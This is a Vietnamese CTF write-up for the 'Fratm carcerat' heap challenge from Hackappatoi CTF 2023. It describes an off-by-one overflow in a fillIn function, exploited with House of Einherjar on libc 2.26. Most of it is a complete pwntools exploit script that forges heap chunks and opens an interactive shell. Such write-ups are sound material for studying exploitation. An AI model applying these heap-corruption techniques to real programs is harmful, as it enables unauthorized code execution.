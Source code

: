 # Fratm carcerat

- 1 chall khá hay mình tìm được ở giải Hackappatoi CTF 2023 về kĩ thuật House of Enherjar 
- nói tóm gọn qua thì chall có 1 bug ở hàm fillIn khi cho phép nhập lố 1 byte cuối => thay đổi size của chunk kế tiếp 

![image](https://github.com/gookoosss/CTF/assets/128712571/97f3c22b-aef1-4267-8161-a1d006d7b4a1)


- lợi dụng điều này ta có thể khai thác House of Enherjar để lấy shell
- trong quá trình làm chall có rất nhiều security check liên quan đến heap ở libc2.26, nên cần phải rất cẩn thận khi debug nha(đặt biệt là để ý fd và bk khi consolidate ubins)

## script  

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fratm_patched")
libc = ELF("./libc-2.26.so")
ld = ELF("./ld-2.26.so")

context.binary = exe


p = process([exe.path])

gdb.attach(p, gdbscript = '''

c
''')

input()

def add(idx, data1, data2, data3):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'>> ', str(idx))
    p.sendlineafter(b'NAME> ', data1)
    p.sendlineafter(b'SURNAME> ', data2)
    p.sendlineafter(b'SERIAL> ', str(data3)) 


def delete(idx):
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'>> ', str(idx))

def create(idx, data1, data2):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'>> ', str(idx))
    p.sendlineafter(b'TITLE> ', data1)
    p.sendlineafter(b'CONTENT> ', data2)

def show(idx):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'>> ', str(idx))

p.sendlineafter(b'>> ', b'5')
p.recvuntil(b'Id: ')
op = int(p.recvline()[:-1], 10)
print(hex(op))

add(0, p64(0x51) + p64(op + 0x30), p64(op + 0x30), 10)
add(1, b'a', b'a', 10)
add(2, b'a', b'a', 10)
add(3, b'a', b'a', 10)
add(4, b'a', b'a', 10)
add(5, b'a', b'a', 10)
add(6, b'a', b'a', 10)
delete(1)
add(1, b'\0' , b'a'*8 + p64(0x50) + b'\xc0', 10)
delete(2)
delete(1)
create(0, b'a'*16, p64(0) + p64(0x31) + p64(op))
add(7, b'a', b'admin', 1)
add(8, b'a', b'admin', 1)
p.sendlineafter(b'>> ', b'5')
p.sendlineafter(b'>>', b'fratm')

p.interactive()
```

